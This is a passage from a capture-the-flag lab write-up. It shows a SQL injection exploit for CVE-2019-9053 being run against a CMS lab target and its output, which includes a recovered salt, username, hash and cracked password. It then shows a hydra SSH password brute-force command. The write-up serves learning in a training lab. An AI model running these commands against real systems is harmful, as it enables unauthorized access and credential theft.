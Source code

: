 I download and run the exploit but I can't get it to work properly. It just tries to enumerate and doesn't actually populate any of the info it's supposed to:

`python2 46635.py -u http://10.10.184.34/simple --crack -w rockyou.txt`

```
[+] Salt for password found: 
[+] Username found: 
[+] Email found: 
[+] Password found:
```

And it is the correct exploit we're supposed to run because typing **CVE-2019-9053** into the TryHackMe question says it's correct. We also see that in the script it's checking for **SQLi** vulnerabilities so that answers the 4th question.

I convert the script from python2 to python3 with **2to3**:

`2to3 46635.py -w`

```
RefactoringTool: Files that were modified:
RefactoringTool: 46635.py
```

There are still errors with the script, so I have to modify it further in order to get it working properly, but I eventually do. Here's a copy of the modified and working script:

[**46635.py**](images/46635.py)

And running it:

`python3 46635.py -u http://10.10.56.214/simple --crack -w rockyou.txt`

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

Note: You can also just crack the password using **hydra** having guessed the username **mitch** from the file on the ftp server:

`hydra -l mitch -s 2222 -P rockyou.txt 10.10.184.34 ssh`

```
[DATA] attacking ssh://10.10.184.34:2222/
[2222][ssh] host: 10.10.184.34   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
```

That answers the 5th question.

<br>

## System Access

I try and ssh over:
